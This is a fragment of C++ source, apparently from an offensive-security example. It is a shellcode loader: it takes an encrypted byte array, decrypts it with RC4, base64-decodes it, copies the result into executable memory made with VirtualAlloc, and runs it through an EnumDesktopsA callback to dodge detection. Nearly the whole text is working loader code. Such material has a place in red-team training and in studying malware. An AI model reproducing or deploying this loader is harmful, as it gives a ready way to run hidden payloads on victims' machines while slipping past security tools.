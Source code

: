 ```cpp
  "\x70\xba\xc7\xd2\x3b\xea\x3d\x6f\x07\xf5\xbc\xae\x1d\x32\xc8\xf3"
  "\x6f\x1c\x32\xe0\xd7\x65\x20\x72\xec\x21\xfe\xa9\xc5\x72\x12\xa6"
  "\x06\x38\x01\x3e\x16\xe8\x09\x68\x87\xc8\x7f\x0b\x44\xcf\xba\x9c"
  "\xbe\x7c\xfc\x3b\x96\x3f\x90\xdc\x96\xe3\x8c\x3f\x3a\xe7\x57\xa4"
  "\xcd\xa5\x42\x4b\x55\x2e\x5b\x89\xf6\xd9\x80\x55\xf8\xbc\x0b\x4e"
  "\x66\x96\x01\xce\xc8\x97\x6a\xbd\x31\x6d\xfd\x53\xae\xcd\x98\xc9"
  "\x28\x73\x60\x4a\x82\xe1\x2e\xb7\x77\xc5\x97\xbd\x3d\xed\xc1\x9c"
  "\xeb\xc6\x06\x3a\x44\xf5\xf8\x7d\x79\x30\x42\xea\xbd\x4d\xbf\xe5"
  "\x18\xcb\xa5\x78\x6f\xb7\xf9\x65\xd7\x36\xbd\x92\x76\xf0\xda\x60"
  "\x97\xac\xd1\xcf\x98\xbf\xd7\x66\xd1\x4b\x34\x96\xfb\xe9\xf8\xac"
  "\x59\xe9\x0e\x81\x81\xe4\x7f\xcf\xd6\x7f\x16\x48\xe1\x94\x0c\x7c"
  "\x8e\xa0\x85\xa1\x81\x0f\xc3\x5f\xfb\xfd\x05\x7b\x69\x5b\xb4\x78"
  "\x4e\x1e\x10\x1b\x29\xc4\xa9\x1d\xa6\xa3\xe6\xa9\xb0\xdd\xc5\x35"
  "\x3b\x0e\xdb\xca\x82\x64\x1a\x19\x53\xdd\x65\xe7\xd3\x5e\x2e\x7d"
  "\x8c\xfa\x80\x52\x6c\xa0\xad\x9a\x8f\xb6\xdc\x43\x8b\x8e\x5f\xac"
  "\x46\xb5\x90\x8a\x16\x3d\x4d\xb9\x17\xc6\x6d\x87\x13\xad\xa3\x78"
  "\x68\x7c\xbc\xcf\x1b\x26\xa6\xc3\x37\x10\xfc\xca\xc4\x78\xa6\xe1"
  "\x7e\x88\x53\xcc\x2e\x38\xe3\x15\xd0\x2b\xe9\x0f";
  unsigned char* encoded = (unsigned char *)payload;
  unsigned char* decoded = (unsigned char *)malloc(sizeof(unsigned char) * 
  (sizeof(payload) - 1));
  RC4(encoded, decoded, key, strlen((const char*)key), sizeof(payload) - 1);
  // printf("%s\n", decoded);

  unsigned int payload_bytes_len = 512;
  char * decoded_payload_bytes = (char *)malloc(sizeof(char) * payload_bytes_len);
  b64decode((const BYTE *)decoded, payload_bytes_len, 
  decoded_payload_bytes, payload_bytes_len);

  unsigned int decoded_payload_len = 285;
  unsigned char* decoded_payload = new unsigned char[decoded_payload_len];

  for (int j = 0; j < decoded_payload_len; j++) {
    decoded_payload[j] = decoded_payload_bytes[j];
  }

  printf("-------payload-----------\n");
  for (int i = 0; i < decoded_payload_len; i++) {
    printf("%02hhx\t", decoded_payload[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, decoded_payload_len + 1, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decoded_payload, decoded_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

